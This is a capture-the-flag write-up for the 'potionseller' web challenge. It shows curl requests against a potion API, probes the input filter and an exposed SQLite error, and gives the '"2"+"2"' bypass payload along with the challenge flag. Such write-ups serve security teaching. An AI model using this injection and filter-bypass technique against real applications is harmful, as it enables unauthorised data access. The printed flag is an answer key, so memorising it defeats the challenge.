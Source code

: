 # potionseller

## What it is

A website that displays potions, it is a reference to a meme ([source](https://knowyourmeme.com/memes/potion-seller)).

We can get the potions in json at ```/potions```.
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions
```
```json
{
  "potions": [
    {
      "id": 0,
      "name": "Health Potion",
      "description": "A boost of health for trying times",
      "img": "https://static.turbosquid.com/Preview/001318/811/G1/_D.jpg",
      "price": 20
    },
    {
      "id": 1,
      "name": "Stamina Potion",
      "description": "That potion literally no one ever uses",
      "img": "https://static.turbosquid.com/Preview/2014/07/08__08_31_26/01.jpg1ba8860a-4b96-48a4-b8a2-ae33c533a8a8Large.jpg",
      "price": 10
    },
    {
      "id": 2,
      "name": "Resurrection Potion",
      "description": "When god fails you, this is the next best thing",
      "img": "https://i.pinimg.com/originals/d7/ac/3c/d7ac3cccb65c2dd43cf6b733e02405d0.jpg",
      "price": 100
    },
    {
      "id": 3,
      "name": "Love Potion",
      "description": "Success not guaranteed if you are a goblin",
      "img": "http://wiccanspells.info/wp-content/uploads/2015/10/love-potion-tincture.jpg",
      "price": 2000
    },
    {
      "id": 4,
      "name": "My Strongest Potion",
      "description": "This potion will kill a dragon - let alone a man!",
      "img": "https://78.media.tumblr.com/5e7b833f6932170b688ad73fbfdfd862/tumblr_mwgbvlkRdo1stqkamo1_500.jpg",
      "price": 100000000
    },
    {
      "id": 5,
      "name": "Truth Serum (6x)",
      "description": "Perfect for questing adventurers or for wild parties!",
      "img": "http://payload138.cargocollective.com/1/3/107627/5077854/TruthSerum_jpeg_02_800.jpg",
      "price": 600
    }
  ]
}
```

We can get a specific potion at ```/potions/{potion id}```, for example:
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/1
```
```json
{
  "potion": {
    "id": 1,
    "name": "Stamina Potion",
    "description": "That potion literally no one ever uses",
    "price": 10,
    "img": "https://static.turbosquid.com/Preview/2014/07/08__08_31_26/01.jpg1ba8860a-4b96-48a4-b8a2-ae33c533a8a8Large.jpg",
    "longdescription": "Are you tired after running after that pesky thief, or after climbing a huge mountain only to find a Korok seed at the top? Fear not - this Stamina potion will have you on your feet in no time! Can also replace a solid coffee in the morning!"
  }
}
```

We can't get the strongest potion (potion 4) that way:
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/4
```
```json
{
  "err": "That potion is too strong for you, traveller!"
}
```

Trying to put some characters instead of a number will result in an error:
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/\=
```
```json
{
  "err": "That looks like code! I don't like code, only potions!"
}
```
"code" chars: '=', ';', ':', '{', '}', '[', ']', '(', ')', '!'

Trying to make 4 with operations can be detected:
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/1+3
```
```json
{
  "err": "Nice try, but that operation adds up to 4! I'm telling you, this potion is too strong!"
}
```
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/2\*2
```
```json
{
  "err": "Nice try, but that operation adds up to 4! I'm telling you, this potion is too strong!"
}
```

Other interesting results:
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/dragon
```
```json
{
  "err": "There was an error querying the SQLite database: Error: SQLITE_ERROR: no such column: dragon"
}
```
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/id
```
```json
{
  "potion": {
    "id": 0,
    "name": "Health Potion",
    "description": "A boost of health for trying times",
    "price": 20,
    "img": "https://static.turbosquid.com/Preview/001318/811/G1/_D.jpg",
    "longdescription": "Are you in a bit of a pickle? Did a giant troll just bash your head in with a large tree perhaps? Do not fear - this Health potion is just the thing you need to get back on your feet!"
  }
}
```
```bash
curl https://potionseller.secu-web.blackfoot.dev/potions/name
```
```json
{}
```

## Solution

```"2"+"2"``` isn't detected like the operations mentionned above (not sure why):
```bash
curl 'https://potionseller.secu-web.blackfoot.dev/potions/"2"+"2"'
```
```json
{
  "potion": {
    "id": 4,
    "name": "My Strongest Potion",
    "description": "This potion will kill a dragon - let alone a man!",
    "price": 100000000,
    "img": "https://78.media.tumblr.com/5e7b833f6932170b688ad73fbfdfd862/tumblr_mwgbvlkRdo1stqkamo1_500.jpg",
    "longdescription": "It's just water with a colorant in it, don't tell anyone! The flag is: BFS{I_n33d_y0uR_5tr0ng3St_p07ion!}"
  }
}
```

flag: ```BFS{I_n33d_y0uR_5tr0ng3St_p07ion!}```
